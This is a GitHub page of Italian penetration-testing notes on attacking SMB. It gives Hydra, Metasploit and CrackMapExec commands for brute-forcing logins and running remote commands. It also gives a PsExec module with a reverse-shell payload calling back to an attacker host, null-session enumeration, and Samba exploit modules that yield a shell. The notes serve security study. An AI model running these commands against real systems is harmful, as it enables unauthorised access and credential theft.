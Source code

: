 <a href="https://github.com/Gigidotexe/Penetration_Test_notes/blob/main/README.md"> Back </a>
## Ricerca Exploit noti
Dopo aver effettuata la scansione del servizio e la sua versione nella fase di Scansione ed Enumerazione, possiamo procedere con la ricerca di exploit noti usando <a href="https://www.exploit-db.com/">Ecploit Database</a> oppure: 
```bash
searchsploit <smb-versione> 
```
> Se restituise un exploit utilizzabile, copia il path e usa `searchsploit -m <path>`

Versioni vulnerabili comuni:
- **SMBv1** ⟶ EternalBlue (MS17-010)
- **Windows XP/2003/7 non patchati** ⟶ buffer overflow
- **vsrvsvc** ⟶ vulnerabilità RPC

Versioni SMB:
- **SMB 1.0** ⟶ insicuro, supporta accessi anonimi, molte vulnerabilità.
- **SMB 2.0/2.1** ⟶ introdotti con Windows Vista e Server 2008, migliorie in sicurezza e prestazioni.
- **SMB 3.0+** ⟶ da Windows 8 in poi, supporto crittografia, multicanale, virtualizzazione.

---

## Brute Force
Molto probabilmente il servizio sará protetto da credenziali e quindi cerchiamo di trovare con un attacco bruteforce
### Hydra
```bash
hydra -L <userList> -P <passwordList> <IP> smb
```

### Metasploit
```bash
use auxiliary/scanner/smb/smb_login
set RHOSTS <IP>
set USER_FILE <user_list>
set PASS_FILE <pass_list>
run
```

### CrackMapExec
strumento da riga di comando scritto in Python, progettato per automatizzare la ricognizione e l’attacco a reti Windows, in particolare in ambienti Active Directory. 
```bash
crackmapexec smb <target> -u <userList> -p <passwordList>
#dopo aver ottenuto delle credenziali
crackmapexec smb <target> -u <username> -p <password> --shares     # elenca condivisioni
crackmapexec smb -u <username> -p <password> <target> --users      # enumera utenti
crackmapexec smb -u <username> -p <password> <target> -x "whoami"  # esegue un comando
```
> È potente, ma anche rumoroso nei log di rete: in un test reale, valuta il rischio di account lockout e allarmi SIEM

---

## PsExec (Metasploit)
Dopo aver scovato delle credenziali possiamo usare uno strumento sviluppato da Sysinternals (Microsoft) che permette di eseguire comandi su un sistema Windows remoto come se li stessi eseguendo in locale.
> Attenzione percè funziona solo con credenziali di livello amministrativo e valide (`ADMIN$`, `IPC$`)
```bash
use exploit/windows/smb/psexec
set RHOSTS <IP>
set SMBUser <username>
set SMBPass <password>
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <KaliIP>
set LPORT <Port>
run
```
## PsExec (Script)
Esiste anche uno script incluso nel pacchetto Impacket, che replica il comportamento di PsExec di Sysinternals
```bash
/usr/share/doc/python3-impacket/examples/psexec.py         # Percorso tipico
cp /usr/share/doc/python3-impacket/examples/psexec.py .    # Copia nella Directory corrente (.) 
chmod +x psexec.py

# utilizzo
psexec.py <username>@<IP> cmd.exe                          # accesso CMD remoto via SMB
```

---


## Enumerazione interna
Per poter enumerare bene, si deve andare piú a fondo e quindi esistono diversi strumenti, ognuno con caratteristiche specifiche che li rendono adatti a compiti complementari
### smbclient
strumento da riga di comando incluso nel pacchetto Samba (su Linux), che permette di connettersi a condivisioni SMB/CIFS su server Windows, Linux o Samba.
```bash
smbclient -L //<target>/ -N                    # condivisioni anonime
smbclient -L <IP> -U <username>                # share disponibili per utente
smbclient //<target>/<share> -U <username>     # accesso alla share, inserisci la password in seguito
```
Comandi interni:
- `?`, `ls`, `get <file>`, `put <file>`, `cd`, `mkdir`, `rmdir`
> File come `*.tar.gz` possono essere estratti con `tar xzf file.tar.gz`

### rpcclient
strumento da riga di comando incluso nel pacchetto Samba, che consente di interagire con i servizi RPC (Remote Procedure Call) dei sistemi Windows.
```bash
rpcclient -U "" <IP>                # connessione null session
rpcclient -U utente <IP>            # connessione usando le credenziali
rpcclient -U utente%password <IP>   # connessione con credenziali insieme
```
Comandi dentro RPC CLient: 
```bash
enumdomusers      # elenca tutti gli utenti del dominio o del sistema locale
enumdomgroups     # elenca tutti i gruppi definiti nel dominio o nella macchina locale
queryuser <RID>   # Permette di ottenere informazioni dettagliate su un singolo utente, partendo dal suo RID
```

### smbmap
strumento da riga di comando scritto in Python che serve per enumerare le condivisioni SMB su sistemi Windows o Samba, e capire che tipo di accesso ha un determinato utente (lettura, scrittura, esecuzione, ecc.).
```bash
smbap -H <IP>
# ma se forniamo delle credenziali ottiene piú dettagli
smbmap -H <IP> -u <username> -p <password>
```
> `R` = lettura <br>
> `W` = scrittura <br>
> `-` = nessun accesso <br>

### enum4linux
strumento da riga di comando, basato su `smbclient`, `rpcclient`, `nmblookup`, usato per enumerare informazioni da sistemi Windows o Samba tramite SMB. Permette di raccogliere dati come utenti, gruppi, condivisioni di rete, nomi NetBIOS, domini, SID e molto altro, anche senza credenziali, sfruttando chiamate RPC e SMB.
```bash
enum4linux <IP>
# ma se forniamo delle credenziali ottiene piú dettagli
enum4linux -u <user> -p <password> <IP>
```

---

## Exploits
Altri exploit utilizzabili sono:
### is_known_pipename
```bash
use exploit/linux/samba/is_known_pipename
set RHOST <IP>
check
run
```
otterremo una shell unix sul target.
> se abbiamo delle informazioni su delle share possiamo settare `SMB_SHARE_NAME` con il nome della share nota.

se volessimo upgradare la shell con meterpeteer, usiamo il modulo
```bash
use post/multi/menage/shell_to_meterpreter
set LHOST <IP>
set SESSION <number>
run
```
oppure 
```bash
sessions -u <number>
```
ottenendo un altra sessione meterpeter
```bash
sessions 
```
### usermap_script
le versioni che vanno dalla 3.0.20 alla 3.0.25rc3 possono essere vulnerabili a questo modulo
```bash
use exploit/multi/samba/usermap_script
set RHOST <IP>
```

---


